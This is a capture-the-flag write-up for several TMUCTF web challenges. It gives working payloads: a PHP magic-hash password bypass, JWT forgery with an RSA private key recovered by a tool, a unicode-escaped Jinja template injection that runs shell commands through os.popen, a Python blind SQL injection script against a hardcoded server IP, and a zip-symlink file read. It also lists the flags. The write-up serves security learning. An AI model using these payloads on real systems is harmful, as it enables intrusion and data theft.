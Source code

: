 ## Challenge Login
Step 1: /robots.txt -> get source

Step 2: input password = `0e1137126905` (payload)

Flag -> `TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}`

## Challenge The Devil Never Sleeps

Step 1: `/sleepingpill` -> get jwt and public key

Step 2: format public key
File `key.pub`
```
-----BEGIN PUBLIC KEY-----
MIGsMA0GCSqGSIb3DQEBAQUAA4GaADCBlgKBjgD/////////////////////////
/////////////////////////////////////////////////////////////3//
///////////+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAECAwEAAQ==
-----END PUBLIC KEY-----
```
Step 3: Use RsaCtfTool to gen private key

`./RsaCtfTool.py --publickey ./key.pub --private`

Private key
```
-----BEGIN RSA PRIVATE KEY-----
MIICkAIBAAKBjgD/////////////////////////////////////////////////
/////////////////////////////////////3/////////////+AAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAECAwEAAQKBjSp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WA
Kn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqVVWqqlVVqqpVVaoAVf+q
AFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+q
AFX/qgBV/6oAVf+qAQJCAf//////////////////////////////////////////
////////////////////////////////////////////Akx/////////////////
////////////////////////////////////////////////////////////////
////////////////////AkIBgIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CA
f3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f38CTFVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqkCQRCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhC
EIQhBCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhCEIQhB
-----END RSA PRIVATE KEY-----
```
Step 4: Use jwt.io set `exp": 9999999999` and `"sleep": "true"`

JWT
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Step 5: `/flag` set Header Pill.
```
Pill: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Flag -> `TMUCTF{0h_51nn3rm4n_Wh3r3_Y0u_60nn4_Run_70?}`

## Challenge Injection
filter: `_ [] . request popen mro config " os self shell % ; + join` and space

Bypass filter by unicode

```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('id')|attr('read')()}}
```
decode -> `lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('id')|attr('read')()`

`ls$IFS-t` -> sort files by time

```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('ls$IFS-t$IFS/opt/tmuctf/')|attr('read')()}}
```

Payload get flag (read first file after sorting)
```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat$IFS/opt/tmuctf/vaYxVj7si8')|attr('read')()}}
```
Final -> decode base64

Flag -> `TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}`

## Challenge Fake Registration
```py
import requests
import string
from random import choices

url ="http://130.185.123.246/register"
flag=""
padding=""
list_char = string.ascii_letters+string.digits

def random_str()->str:
  return ''.join(choices(list_char,k=7))

def create_user(i,padding):
    data = {
            "username":f"{padding}'||substr((select password from users),{i},1),'tai')--",
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        # print('done')
    except Exception as e:
        print(e)
def brute(char,padding):
    data = {
            "username":padding+char,
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        return r
    except Exception as e:
        print(e)

if __name__ == "__main__":
    for i in range(1,70):
        padding = random_str()
        # print(padding)
        create_user(i,padding)
        for char in string.printable:
            print(char,end='\r')
            if char!="'":
                r=brute(char,padding)
                #print(r.text)
                try:
                    if "UNIQUE constraint" in r.text:
                        flag+=char
                        padding+=char
                        print(flag)
                        break
                except Exception as e:
                    print(e)
```
Flag -> `MUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}`

## Challenge nano
Step 1: `/index.html~` -> get path `/801910ad8658876d56f5c8b24a563096.php` (view-source)

Step 2: `/801910ad8658876d56f5c8b24a563096.php?flag_help=/dev/fd/10` -> get path `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php`

Step 3: `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php` and upload zip

Gen zip
```
ln -s /etc/ff3efa4307078c85678c6adee3b5f1b1af2ba16e/nanoflag/flag.txt payload

zip --symlinks payload.zip payload
```

Upload zip and access `/upload/random/payload`
Flag -> `TMUCTF{Z1P_5l1p_15_4_D4n63r0u5_4rch1v3_3x7r4c710N_Vuln3r4b1l17Y___4nd_4_f0rm_0f_D1r3c70rY_7r4v3r54L!!}`

## Thank
Writeup full I will upload at http://dauhoangtai.github.io later
